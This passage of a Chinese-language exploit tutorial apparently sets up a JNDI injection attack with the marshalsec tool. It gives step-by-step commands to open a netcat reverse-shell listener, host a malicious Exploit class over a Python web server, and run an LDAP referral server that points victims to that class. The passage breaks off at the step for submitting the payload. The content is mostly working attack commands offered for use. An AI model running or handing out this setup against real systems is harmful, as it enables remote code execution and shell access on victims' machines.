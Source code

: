**ip port为反弹shell监听端口**



### 监听反弹shell

监听一个未被占用端口即可

```
nc -lvp 24564
```

![image-20210324165525238](image-20210324165525238.png)

### web服务

把GitHub项目中的marshalsec-0.0.3-SNAPSHOT-all.jar文件和Exploit.java放在同一目录下

在marshalsec-0.0.3-SNAPSHOT-all.jar文件和Exploit.java的文件目录下开启web服务

```
python3 -m http.server --bind 0.0.0.0 8888
```

![image-20210324165444110](image-20210324165444110.png)





### rmi服务

最后开启远程方法调用rmi服务

安装rmi服务https://github.com/mbechler/marshalsec

maven构建项目maven构建项目**（得先安装maven）**

```
mvn clean package -DskipTests
```



### ldap服务

java需要用java8

启动ldap服务

```java
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ip:port/#Exploit" 1389
```

ip和port为web服务开启的端口，1389为ldap开启的端口，根据自己修改

![image-20210324165423879](image-20210324165423879.png)

### 提交参数运行exp
